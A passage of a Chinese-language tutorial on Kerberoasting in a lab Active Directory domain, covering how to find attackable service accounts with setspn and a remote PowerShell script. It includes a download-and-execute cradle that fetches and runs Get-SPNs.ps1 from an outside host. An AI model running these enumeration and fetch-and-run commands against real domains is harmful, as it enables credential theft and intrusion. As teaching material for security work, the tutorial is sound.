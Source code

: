 #### **

3.1、搜寻可 Kerberoasting 的服务帐户 – setspn.exe

**

**setspn** 命令主要用于为域中的服务帐户设置 SPN，然而，攻击者发现也可以利用它来枚举可受 Kerberoasting 攻击的服务帐户。

> 注：该命令属于 windows 工具，在 windows 域服务器上几乎肯定会存在，而在一些 windows 客户端版本中可能需要安装 RSAT 工具包。
> 
> 因此，在使用该命令前需要先检查一下 `C:\Windows\System32\setspn.exe`，如果存在，它应该是最佳的枚举工具。

要使用 setspn 命令，我们需要在 -T 选项后提供域名或通配符。如果使用通配符，它将检查当前林中的服务帐户。这意味着，如果林包含多个域，它将检查每个域中是否存在已注册的服务帐户。

    setspn -T * -F -Q */*
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172741761-1339135370.png)

从上面输出中可以看到，该林仅包含一个域：**juggernaut.local**，并且还找到了两个可 kerberoasting 的服务帐户：**sqlservice、backup\_svc**。

> 注：上面输出的信息中，主要有 以**域控账户**注册的 SPN、以**域计算机账户**注册的 SPN、以**域用户账户**注册的 SPN，而我们只关注以**域用户账户**注册的 SPN，即包含 `CN=Users,DC=juggernaut,DC=local` 的用户。
> 
> 另外，不同的域控器对 SPN 的表示方式似乎也有一些不同，如上图中是以 **主机名/服务账户.域名:端口号**（`Juggernaut-DC/sqlservice.juggernaut.local:60111`） 的方式，而我的测试环境中是以 **服务标识/主机名.域名:端口号**（`MSSQLSvc/DC2012.skylark.com:1433`）的方式。因此，若想从中获取域账户名称等信息，建议还是以导出服务票据中显示的域账户信息为准。

#### **

3.2、搜寻可 Kerberoasting 的服务帐户 – Get-SPNs.ps1

**

另一个可用来枚举域中已注册 SPN 的工具是 Powershell 版本的 [Get-SPNs.ps1](https://github.com/Juggernaut-Sec/Active-Directory-Scripts/blob/main/Get-SPNs.ps1)，执行该脚本的设置过程此处略过，以下仅展示该脚本执行之后的输出结果。

    iex(new-object net.webclient).downloadstring('http://172.16.1.30/Get-SPNs.ps1')
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172740740-879267287.png)

现在，我们已经了解了如何查找已注册 SPN 的域服务帐户，接下来，让我们继续下一步：申请/导出服务票据。

> 此外，还有许多工具可用于枚举可 kerberoasting 的用户，其中包括 [Bloodhound](https://github.com/BloodHoundAD/BloodHound)、[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)、[RSAT](https://github.com/samratashok/ADModule) 等。

**

4、手动申请服务票据 to 内存 – 本地

**
-----------------------------

在成功找到两个可 kerberoasting 的域服务帐户之后，接下来便是为每个服务帐户申请各自的服务票据。当我们申请服务票据时，票据会被缓存到内存中，而为了能从票据中获取 TGS-REP 哈希，我们需要将票据从内存中导出来。

#### **
